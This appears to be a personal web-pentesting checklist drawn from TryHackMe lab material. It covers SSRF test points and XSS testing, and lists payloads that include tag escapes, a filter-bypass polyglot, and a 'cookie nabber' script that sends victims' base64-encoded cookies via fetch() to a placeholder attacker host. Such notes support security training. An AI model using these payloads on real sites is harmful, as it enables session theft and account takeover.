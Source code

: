 - [ ]  A hidden field in a form that contains a URL

![image.png](attachment:627a7956-e5e6-4bed-8760-0c504e3d22b9:image.png)

- [ ]  A partial URL such as just the hostname

![image.png](attachment:8421f50f-d970-45c4-b6ca-0d032665058f:image.png)

- [ ]  Only the path of the URL

![image.png](attachment:7fdc9eb3-32e5-442b-b322-f0b1520c42d9:image.png)

![image.png](attachment:107c1647-09e9-438c-a4b7-9d87d9e6c04b:image.png)

## XSS

- [ ]  Reflected XSS - Test input fields that display back user input
- [ ]  Stored XSS - Check fields that store data like comments or user profiles
- [ ]  DOM-based XSS - Review client-side JavaScript that manipulates the DOM
- [ ]  Test for XSS in HTTP headers - especially the User-Agent header
- [ ]  Try different encoding methods to bypass filters (URL encoding, HTML encoding)
- [ ]  Check for XSS in file upload functionality - especially in file names and metadata
- [ ]  Test error messages for XSS vulnerabilities
- [ ]  Payloads
    - [ ]  Basic - `<script>alert('Hello');</script>`
    - [ ]  Input tag escape -  `"><script>alert('Hello');</script>`
    - [ ]  Textarea escape - `</textarea><script>alert('Hello');</script>`
    - [ ]  Javascript code escape - `';alert('Hello');//`
        
        ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/80fd5abe95b63ce52ff0ff9f9f6f6d57.png)
        
        ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/17c6b9717f16af910557438017be9c53.png)
        
    - [ ]  String-based detection escape - `<sscriptcript>alert('Hello');</sscriptcript>`
    - [ ]  Img tag escape - `/images/cat.jpg" onload="alert('Hello');`
    - [ ]  **Polyglots:** An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. Example: `jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('Hello') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Hello')//>\x3e`
    - [ ]  Dom-based cookie nabber - `<script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`
        - The `</textarea>` tag closes the text area field.
        - The `<script>` tag opens an area for us to write JavaScript.
        - The `fetch()` command makes an HTTP request.
        - `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
        - `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
        - `?cookie=` is the query string containing the victim’s cookies.
        - `btoa()` command base64 encodes the victim’s cookies.
        - `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
        - `</script>`closes the JavaScript code block.
    
    ## Race Condition
    